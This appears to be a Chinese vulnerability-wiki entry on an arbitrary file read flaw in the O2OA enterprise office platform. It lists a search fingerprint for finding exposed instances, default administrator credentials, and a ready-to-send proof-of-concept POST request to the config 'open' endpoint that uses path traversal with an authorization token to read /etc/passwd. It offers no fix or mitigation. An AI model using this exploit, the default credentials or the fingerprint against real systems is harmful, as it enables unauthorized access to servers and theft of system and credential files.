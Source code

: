 # O2OA open 后台任意文件读取漏洞

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统 open 接口存在任意文件读取漏洞。攻击者可利用漏洞读取任意文件。

## 漏洞影响

<a-checkbox checked>O2OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="O2OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1661649878832-df6a8d1f-e402-4db0-b567-7d0803a43c0a-8539272.png)

默认密码登录后台 xadmin/o2 (o2oa@2022),  验证POC

```php
POST /x_program_center/jaxrs/config/open?v=6.3
Authorization: PfyuxmzgIzq74NYhOcQ5NGbegmqb8H4y50QnO7mEHhA

{"fileName":"../../../etc/passwd"}
```

![img](/assets/PeiQi-Wiki/img/1661746022863-2eb3f02d-8437-4fa6-bb7f-dc401c699a63.png)